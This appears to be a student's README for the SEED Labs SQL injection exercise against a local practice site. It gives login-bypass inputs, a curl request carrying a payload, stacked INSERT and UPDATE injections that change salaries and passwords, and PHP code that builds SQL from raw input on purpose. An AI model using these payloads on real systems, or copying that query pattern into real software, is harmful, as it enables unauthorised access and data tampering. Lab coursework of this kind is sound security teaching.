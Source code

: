# Sql-Injection
###Task 1:  Log in MYSQL:

    mysql -u root -pseedubuntu
		
    mysql> use Users;
		
    mysql> show tables;
	
  
//Use such a SQL query:
  
  select * from credential where Name='Alice';
  
![alt text](https://github.com/moazam303/Sql-Injection/blob/main/task%201.png)



###Task 2:

--> Task 2.1


    .USERNAME: "Admin' #"

    .PASSWORD: "xyz" (here is password is optional)


//We will result in SQL Query

    SELECT id, name, eid, salary, birth, ssn, address, email, nickname, password
  
    FROM credential

    WHERE name='Admin' #' && password='xyz'



--> Task 2.2

      1- Write Code on Terminator in Seed Lab:

      curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=Admin%27%20%23';

      2- Copy the HTML code.

      3- Make a new file in location "file:///home/seed/Documents/temp.html"

      4. Run this location on browser
      
![alt text](https://github.com/moazam303/Sql-Injection/blob/main/task%202.2.png)


--> Task 2.3:	inject statment to append a row to current database:

	
  INSERT INTO credential (name,eid) VALUES('Moazam', '17422');
	
  After row inserted, go to browser and input as:
	.USERNAME: "1=1; INSERT INTO credential (name,eid) VALUES('Waleed','17422') #"
	.PASSWORD: "" (blank field)

![alt text](https://github.com/moazam303/Sql-Injection/blob/main/task%202.3.png)



###Task 3
Run this on browser "http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php"

--> Task 3.1

    1- Login as Username= 'Alice' && Password = xyz, 
  	2- Then edit the link to browser http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php
	  3- Update Phone Number as ', Salary=1000000 and save.
    
    
    
--> Task 3.2
	  1- Login as Username= 'Boby' #' and then open edit profile
	  2- Update Phone Number: ',Salary=0 and remaining unchanges
    
    
![alt text](https://github.com/moazam303/Sql-Injection/blob/main/task%203.2.png)



Login as Alice
		Assume login as Boby and keep Alice login too. Open Alice profile edit
	Update Phone Number: ', Salary=1 where name='Boby' #




--> Task 3.3:	We're login as Boby but change password of Alice




```
$conn = getDB();
	// Don't do this, this is not safe against SQL injection attack
	$sql="";
	if($input_pwd!=''){
	// In case password field is not empty.
	$hashed_ = sha1($input_pwd);
	//Update the password stored in the session.
	$_SESSION['pwd']=$hashed_pwd;
	$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',Password='$hashed_pwd',PhoneNumber='$input_phonenumber' where ID=$id;";
	}else{
	// if passowrd field is empty.
	$sql = "UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',PhoneNumber='$input_phonenumber' where ID=$id;";
	}
	$conn->query($sql);
	$conn->close();
	header("Location: unsafe_home.php");
	exit();

